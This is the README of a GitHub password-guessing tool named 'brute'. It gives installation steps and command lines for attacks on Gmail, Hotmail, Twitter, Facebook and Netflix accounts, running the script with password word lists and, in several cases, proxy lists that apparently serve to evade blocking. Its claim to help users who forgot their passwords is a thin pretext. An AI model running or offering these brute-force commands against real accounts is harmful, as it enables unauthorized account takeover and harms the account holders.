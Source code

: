 # brute 
this tool using password guessing you forgot your passwords 

# Installation 


git clone https://github.com/Khalidhusain786/brute.git

cd brute

apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize 

python3 brute.py -h

# Gmail attack 


python3 brute.py -g Account@gmail.com -l File_list

python3 brute.py -g Account@gmail.com -p Password.txt 


# Hotmail attack 


python3 brute.py -t Account@hotmail.com -l File_list

python3 brute.py -t Account@hotmail.com -p Password_Single 


# Twitter attack 

python3 brute.py -T Account_Twitter -l File_list

python3 brute.py -T Account_Twitter -l File_list -X proxy-list.txt


# Facebook attack 

python3 brute.py -f Account_facebook -l File_list

python3 brute.py -f Account_facebook -l File_list -X proxy-list.txt 


# Netflix attack 

python3 Brute_Force.py -n Account_Netflix -l File_list 

python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt




 



 



 



 









